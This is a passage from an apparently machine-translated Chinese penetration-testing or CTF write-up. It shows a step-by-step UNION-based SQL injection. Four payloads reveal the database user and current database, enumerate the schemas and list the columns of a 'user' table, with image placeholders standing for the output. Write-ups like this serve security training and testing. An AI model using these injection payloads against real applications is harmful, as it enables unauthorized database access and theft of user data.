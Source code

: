 ```
1' UNION SELECT 1,2,3, user(),5,6; -- -
```

![](img/23caff4ffa797a9e0eaa5fc4d4f0dcbe.png)

正在检查当前数据库:

```
1' UNION SELECT 1,2,3, database(),5,6; -- -
```

![](img/a7fc5542ae81199728ef35638a1e4930.png)

在转储数据库之前，最好尝试映射您是哪个用户以及您在哪个数据库中。我知道列出可用的数据库:

```
1' UNION SELECT 1,2,3,group_concat(schema_name),5,6 from information_schema.schemata; -- -
```

![](img/4d03550b703ce5e8584d4dc047f66df9.png)

知道没有其他感兴趣的数据库，我尝试获取表“user”下的列

```
1' UNION SELECT 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_name='user'; -- -
```

![](img/5924e8ebeedac9612043d65486a50717.png)
